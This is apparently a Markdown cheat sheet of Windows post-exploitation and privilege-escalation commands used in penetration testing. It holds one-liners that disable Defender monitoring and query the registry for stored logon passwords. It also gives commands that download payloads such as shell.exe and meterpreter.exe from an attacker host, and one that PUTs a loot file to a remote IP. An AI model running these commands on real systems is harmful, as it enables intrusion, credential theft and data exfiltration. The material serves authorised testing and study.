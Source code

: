 # Enum    
## Quick Enum
    whoami /priv
    ipconfig /all     
    net users   
    net localgroup
    dir /r    
    tree /a /f     
    netstat /anto   
    for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.     
      
    
## Scripts
[winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)   

## Checklists    
[HackTricks Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)

## Powershell
    Get-ExecutionPolicy    
    Set-ExecutionPolicy Unrestricted   
    Set-MpPreference -DisableRealtimeMonitoring $true   
____   

# Exploits
https://lolbas-project.github.io/#   

## Passwords
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"    
    
## Service Exploits
### Unquoted Service Paths
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """   
    
## Kernel exploits   
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"   
### Tools
https://github.com/bitsadmin/wesng   
https://github.com/rasta-mouse/Watson   
### Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits   

____   


# File Transfer     
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
    copy \\10.6.85.85\kali\shell.exe C:\PrivEsc\shell.exe

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat    
    
  
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Users\out  
    
    Invoke-RestMethod -Method PUT -Uri "http://10.10.14.12:8001/l00t.txt" -Body $(Get-Content l00t.txt)

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

## XM File Creation (Using copy and paste)
    PS C:\> $console = [XML] @"
    <XML CODE CODE HERE>
    "@
    /# write the xml to file:
    PS C:\> $console.save("C:\users\burmat\documents\console.xml")
 ____   
  
# Resources
## Cheat Sheets
https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts
## Learn More
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
  
